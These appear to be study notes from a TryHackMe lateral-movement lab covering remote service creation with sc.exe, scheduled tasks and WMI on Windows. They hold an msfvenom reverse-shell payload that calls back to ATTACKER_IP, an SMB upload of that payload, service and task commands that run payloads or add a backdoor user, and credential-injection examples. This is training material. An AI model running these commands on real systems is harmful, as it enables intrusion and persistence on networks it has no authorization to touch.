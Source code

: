 ## Remotely Creating Services Using sc
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCE/RPC)
    - 445/TCP (RPC over SMB Named Pipes)
    - 139/TCP (RPC over SMB Named Pipes)
- **Required Group Memberships:** Administrators
- how it works
 it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:
1. A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
![svcctl via RPC](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/c4f288e73da9c0f4d480ad817b365fe5.png)  
2. If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS).
![svcctl via named pipe](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/0c425c37d692c771c944e38dca8c5879.png)
```shell
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
smbclient -c 'put myservice.exe' -U <local_admin> -W ZA '//<machine>/admin$/' <pass>
```
- if current user have local admin access on target
```shell
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice

sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```
- if not then use `runas` to inject cred in memory and use it in remote connections
```powershell
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= '%windir%\myservice.exe' start= auto" 
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "sc.exe \\thmiis.za.tryhackme.com start THMservice-3249"
```
## Creating Scheduled Tasks Remotely
```shell-session
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1" 

schtasks /S TARGET /TN "THMtask1" /DELETE /F
```
## WMI (Windows Management Instrumentation)
is the infrastructure for management data and operations on Windows-based operating systems.
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators
We then proceed to establish a WMI session using either of the following protocols:
- **DCOM:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP.
- **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).
```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```